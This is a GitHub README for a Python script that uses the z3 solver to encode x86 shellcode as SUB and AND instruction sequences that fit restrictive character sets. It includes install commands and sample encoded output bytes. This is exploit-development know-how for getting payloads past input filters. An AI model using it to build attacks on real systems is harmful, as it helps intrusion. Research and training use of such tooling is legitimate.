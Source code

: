 # Z3 SUB Shellcode Encoder

A _relatively_ simple script for encoding shellcode as described [here](https://marcosvalle.github.io/re/exploit/2018/10/05/sub-encoding.html), [here](https://vellosec.net/blog/exploit-dev/carving-shellcode-using-restrictive-character-sets/) and [here](https://github.com/marcosValle/z3ncoder). Uses the `z3` theorem solver to determine values to subtract.

# Install

```
$ git clone https://github.com/dpindur/z3-sub-shellcode-encoder
$ cd z3-sub-encoder
$ pip install -r requirements.txt
```

# Usage

```
$ python encode.py
buf  = b''
buf += b'\x2d\x6e\x62\x37\x7e'              # sub  eax, 0x7e37626e
buf += b'\x2d\x01\x07\x32\x74'              # sub  eax, 0x74320701
buf += b'\x2d\x01\x06\x06\x7d'              # sub  eax, 0x7d060601
buf += b'\x50'                              # push eax
buf += b'\x25\x65\x46\x66\x69'              # and  eax, 0x69664665
buf += b'\x25\x08\x66\x6d\x6e'              # and  eax, 0x6e6d6608

buf += b'\x2d\x36\x7a\x09\x07'              # sub  eax, 0x07097a36
buf += b'\x2d\x39\x76\x06\x5f'              # sub  eax, 0x5f067639
buf += b'\x2d\x01\x7f\x5f\x09'              # sub  eax, 0x095f7f01
buf += b'\x50'                              # push eax
buf += b'\x25\x3c\x6e\x66\x6f'              # and  eax, 0x6f666e3c
buf += b'\x25\x02\x4a\x6d\x69'              # and  eax, 0x696d4a02

buf += b'\x2d\x32\x39\x05\x7e'              # sub  eax, 0x7e053932
buf += b'\x2d\x06\x32\x63\x77'              # sub  eax, 0x77633206
buf += b'\x2d\x38\x04\x07\x7a'              # sub  eax, 0x7a070438
buf += b'\x50'                              # push eax
buf += b'\x25\x79\x72\x7b\x43'              # and  eax, 0x437b7279
buf += b'\x25\x63\x6c\x6a\x69'              # and  eax, 0x696a6c63

buf += b'\x2d\x36\x7a\x6a\x5f'              # sub  eax, 0x5f6a7a36
buf += b'\x2d\x31\x76\x01\x07'              # sub  eax, 0x07017631
buf += b'\x2d\x09\x7f\x03\x09'              # sub  eax, 0x09037f09
buf += b'\x50'                              # push eax
buf += b'\x25\x65\x46\x66\x69'              # and  eax, 0x69664665
buf += b'\x25\x08\x66\x6d\x69'              # and  eax, 0x696d6608
```